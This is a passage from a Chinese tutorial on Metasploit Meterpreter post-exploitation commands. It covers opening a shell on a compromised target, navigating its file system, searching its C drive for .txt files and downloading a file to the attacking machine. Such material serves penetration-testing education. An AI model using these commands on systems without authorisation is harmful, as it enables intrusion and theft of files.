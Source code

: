 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgK35Z3X3QvYOTREKNqlyQQ04U5XTekDObQU6pJNTXZbbSgdSc6pBeWww/640?wx_fmt=png)

(16) 进入目标机 shell。

*   **`shell`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKBocgPV7EhwpChFibibsjsamFPEBbvrJeXl4DsG2h725bsicNqL8NAutKg/640?wx_fmt=png)

(17) 停止 shell 会话并返回 meterpreter。

*   **`exit`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgK7Sf7cfL8uD9h52koNVN4BFic98MmAw1UmD8GQS2l3IXcLp9Ak8T7eUw/640?wx_fmt=png)

3. 文件系统命令
---------

Meterpreter 也支持各种文件系统命令，用于搜索文件并执行各种任务，例如搜索文件、下载文件及切换目录等，相对来说操作比较简单。常用的文件系统命令如下所示。

(1) 查看当前处于目标机的目录。

*   **`pwd或getwd`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKxw1Y3PxPOXtO9iaPKMBnfYibFgDlL2Eb070oSRJW0WSkUHL46jhshCrg/640?wx_fmt=png)

(2) 查看当前处于本地的哪个目录。

*   **`getlwd`**
    

(3) 列出当前目录中的所有文件。

*   **`ls`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKIxOKQfic5rSppEnSuxuR4Yel4uvCPYe9QQu7KjHcd1AjsnibkxqSFPUA/640?wx_fmt=png)

(4) 切换目录。

*   **`cd`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKYZMIB8ubukshHUyQULjnXUaFm6MfWIv3zF89PksSSQMLVicw7qMbuibg/640?wx_fmt=png)

(5) 搜索 C 盘中所有以 ".txt" 为扩展名的文件。

*   **`search -f *.txt -d c:\\`**
    

其中 - f 参数用于指定搜索文件模式，-d 参数用于指定在哪个目录下进行搜索，如图所示。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKua9Ok5fdJ4BhOJLqUGMSl2aoFnpIib10dyh9ibXhQbFbfm8DJMbfauRA/640?wx_fmt=png)

(6) 下载目标机 C 盘的 test.txt 文件到攻击机 root 下。

*   **`download c:\\test\\test.txt /root`**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNUxpPHicL2yuT72bmBzgtgKEUrC97BINFmgyS6ub1xkWicBU3ytEVofR0CcBrn4SWJWvMh8fhtuSdw/640?wx_fmt=png)

